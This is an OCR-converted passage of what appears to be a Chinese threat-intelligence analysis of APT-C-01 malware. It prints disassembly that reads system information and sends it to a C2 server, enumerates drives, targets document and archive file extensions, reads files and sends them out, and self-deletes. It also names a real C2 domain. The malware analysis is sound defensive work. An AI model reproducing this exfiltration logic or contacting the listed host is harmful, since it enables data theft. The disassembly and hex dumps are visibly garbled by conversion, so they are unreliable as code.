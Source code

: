 <html><body><table><tr><td>.text:004022E1</td><td>push</td><td>eax</td></tr><tr><td>text:004022E2</td><td>push 20019h</td><td></td></tr><tr><td>.text:004022E7</td><td>push</td><td>0</td></tr><tr><td>.text:004022E9</td><td>push</td><td>offset SubKey ；SOFTWARE\Microsoft\WindowsNT\CurrentVersion</td></tr><tr><td>.text:004022EE</td><td>push</td><td>80000002h hKey</td></tr><tr><td>.text:004022F3</td><td>call</td><td>ds:RegOpenKeyExW</td></tr><tr><td>text:004022F9</td><td>test</td><td rowspan="2">eax,eax short 1oc_402345</td></tr><tr><td>.text:004022FB</td><td>jnz</td></tr><tr><td>.text:004022FD</td><td>lea</td><td>eax,[ebp+cbData]</td></tr><tr><td>.text:00402300</td><td>push</td><td>eax ；lpcbData</td></tr><tr><td>.text:00402301</td><td>lea</td><td>eax， [ebp+sProductName]</td></tr><tr><td>.text:00402307</td><td>push</td><td>eax ；lpData</td></tr><tr><td>.text:00402308</td><td>lea</td><td>eax，[ebp+Type]</td></tr><tr><td>.text:0040230B</td><td>push</td><td>eax ；lpType</td></tr><tr><td>.text:0040230C</td><td>push</td><td>0 ；lpReserved</td></tr><tr><td>text:0040230E</td><td>push</td><td>offset ValueName； "ProductName"</td></tr><tr><td>text:00402313</td><td>push</td><td>[ebp+phkResult]；hKey</td></tr><tr><td>.text:00402316</td><td>call</td><td>ds:RegQueryValueExW</td></tr><tr><td>.text:0040231C</td><td>test</td><td>eax,eax</td></tr><tr><td>text:0040231E</td><td>jnz</td><td>short 1oc_402345</td></tr><tr><td>text:00402320</td><td>mov lea</td><td>edx，104h</td></tr><tr><td>text:00402325</td><td>call</td><td>ecx,[ebp+sProductName]</td></tr><tr><td>text:0040232B</td><td>push</td><td>m_strEncrypt_4010c0</td></tr><tr><td>.text:00402330</td><td>104h</td><td>；flags</td></tr><tr><td>.text:00402332</td><td>push</td><td>；len</td></tr><tr><td>.text:00402337</td><td>lea push</td><td>eax,[ebp+sProductName]</td></tr><tr><td>.text:0040233D</td><td>push</td><td>eax ；buf</td></tr><tr><td>.text:0040233E</td><td></td><td>ebx ；s</td></tr><tr><td>.text:0040233F</td><td>call</td><td>ds:send</td></tr></table></body></html>  

紧接着开始遍历计算机磁盘获取特定文件名后缀的文档资料，并发送至C2。  

us:Getlogicaivrivesmov esi,eax.text:00403692 test esi, esi.text:00403694 jz loc_403792.text:0040369A xor ecx, ecx.text:0040369C mov dword ptr [esp+900h+hostshort], ecx.text:004036A0.text:004036A0 10c_4036A0: ； CODE XREF:_main+56A↓j.text:004036A0 cmp ecx, 1Ah.text:004036A3 jz loc_403792.text:004036A9 mov eax, esi.text:004036AB shr eax, cl.text:004036AD test al, 1.text:004036AF jz loc_403782.text:004036B5 xorps xmm0, xmm0.text:004036B8 mov word ptr [esp+900h+var_8E8], 0.text:004036BF lea eax, [ecx+41h].text:004036C2 movq [esp+900h+RootPathName], xmm0.text:004036C8 mov byte ptr [esp+900h+RootPathName], al.text:004036CC lea eax, [esp+900h+RootPathName].text:004036D0 push eax ； lpRootPathName.text:004036D1 movaps xmmword ptr [esp+54h], xmm0.text:004036D6 mov [esp+904h+anonymous_1], 0.text:004036DE mov word ptr[esp+904h+RootPathName+1],3Ah.text:004036E5 call ds:GetDriveTypeA.text:004036EB cmp eax,2.text:004036EE jnz short loc_4036F7.text:004036F0 push offset aDriveRemovable ;"DRIVE_REMOVABLE".text:004036F5 jmp short 1oc 403719004239A0 $\begin{array}{c c l}{{}}&{{\mathsf{A B~00~98~00~00~00~64~.}\otimes\theta}}\ {{}}&{{\mathsf{G F~00~63~00~78~00~60~{\boldsymbol{\theta}}0~}}}\ {{}}&{{\mathsf{70~00~70~00~74~00~78~00~}}}\ {{}}&{{\mathsf{00~00~78~00~60~65~00~73~00~}}}\ {{}}&{{\mathsf{66~00~00~00~00~74~00~78~00~}}}\ {{}}&{{\mathsf{67~00~00~00~00~72~00~61~00}}}\ {{}}&{{\mathsf{00~00~7A~00~69~69~00~70~00}}}\end{array}$ 6F00630000006400 .d.o.c...d.004239B0 7000700074000000 o.c.x...p.p.t.004239C0 000078 00 6C00 73 00 p.p.t.x...x.l.s.004239D0 7800000070006400 ..x..s.x...p.d.004239E0 740000006A007000 f...t.x.t...j.p.004239F0 7200000037007A00 g...r.a.r...7.z.00423A00 0000000000000000 ..z.i.p....text:00402DC9 push 0 ； lpoverlapped.text:00402DCB push eax ；lpNumberOfBytesRead.text:00402DCC push 1000h ； nNumberOfBytesToRead.text:00402DD1 lea eax, [ebp+Buffer].text:00402DD7 push eax ；lpBuffer.text:00402DD8 push ebx ；hFile.text:00402DD9 call ds:ReadFile.text:00402DDF test eax, eax.text:00402DE1 jz short loc_402E55.text:00402DE3 mov eax, [ebp+NumberOfBytesRead].text:00402DE6 test eax, eax.text:00402DE8 jz short loc_402E47.text:00402DEA lea ecx,[ebp+Buffer].text:00402DF0 cmp eax，1000h.text:00402DF5 jnz short loc_402E1B.text:00402DF7 call sub_401100.text:00402DFC push 0 ； flags.text:00402DFE push 1000h ；len.text:00402E03 lea eax,[ebp+Buffer].text:00402E09 push eax ；buf.text:00402E0A push [ebp+s] ；s.text:00402E0D call ds:send  

最后释放新的system.vbs和system.bat用于自删除。  

在此类攻击活动中，我们发现攻击者仍然使用了一个在360独家发布的《毒云藤（APT-C-01）军政情报刺探者揭露》报告中所披露的C2(emailser163.serveusers.com)实施了部分攻击活动。通过这种现象，我们可以发现APT-C-01组织是如何肆无忌惮的进行网络窃密活动，并没有因为安全厂商的披露而有所收敛。  
